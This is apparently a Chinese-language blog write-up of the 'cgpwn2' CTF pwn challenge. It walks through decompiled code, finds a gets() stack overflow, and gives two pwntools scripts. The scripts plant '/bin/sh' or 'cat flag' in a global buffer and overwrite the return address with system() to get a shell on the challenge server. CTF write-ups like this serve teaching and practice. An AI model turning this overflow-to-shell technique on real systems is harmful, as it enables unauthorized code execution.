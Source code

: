 ```yaml
---
layout: post
title:  cgpwn2
date:   2020-08-23 00:01:01 +0300
image:  2020-08-23-silhouette.jpg
tags:   [ctf,Pwn,CGCTF,攻防世界]
---
```


ida打开程序，进入主函数查看代码

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  hello();
  puts("thank you");
  return 0;
}
```

进入hello()函数

```assembly
char *hello()
{
  char *v0; // eax
  signed int v1; // ebx
  unsigned int v2; // ecx
  char *v3; // eax
  char s; // [esp+12h] [ebp-26h]
  int v6; // [esp+14h] [ebp-24h]

  v0 = &s;
  v1 = 30;
  if ( (unsigned int)&s & 2 )
  {
    *(_WORD *)&s = 0;
    v0 = (char *)&v6;
    v1 = 28;
  }
  v2 = 0;
  do
  {
    *(_DWORD *)&v0[v2] = 0;
    v2 += 4;
  }
  while ( v2 < (v1 & 0xFFFFFFFC) );
  v3 = &v0[v2];
  if ( v1 & 2 )
  {
    *(_WORD *)v3 = 0;
    v3 += 2;
  }
  if ( v1 & 1 )
    *v3 = 0;
  puts("please tell me your name");
  fgets(name, 50, stdin);
  puts("hello,you can leave some message here:");
  return gets(&s);
}
```

最开始的一部分代码是没什么用的，关键就是最后四行代码。

gets()函数能造成溢出，可以利用。

查看有没有可以利用的其他函数

```assembly
int pwn()
{
  return system("echo hehehe");
}
```

这个函数调用了system()函数，但是参数并不是我们所期望的"/bin/sh"或者"cat flag"。所以可以使用fgets将/bin/sh字符串读入bss区，然后将返回地址覆盖为system函数，参数布置为name的首地址。

```assembly
from pwn import *

io = remote("220.249.52.133",43490)
payload = "A" * (0x26 + 4) + p32(0x08048420)
payload += p32(0xdeadbeef) + p32(0x0804A080)
# system()返回地址
io.recvuntil("please tell me your name")
io.sendline("/bin/sh")
io.recvuntil("hello,you can leave some message here:")
io.sendline(payload)
io.interactive()
```

或者

```
from pwn import *

io = remote("220.249.52.133",43490)
payload = "A" * (0x26 + 4) + p32(0x08048420) + p32(0xdeadbeef) + p32(0x0804A080)
io.recvuntil("please tell me your name")
io.sendline("cat flag")
io.recvuntil("hello,you can leave some message here:")
io.sendline(payload)
io.interactive()
```

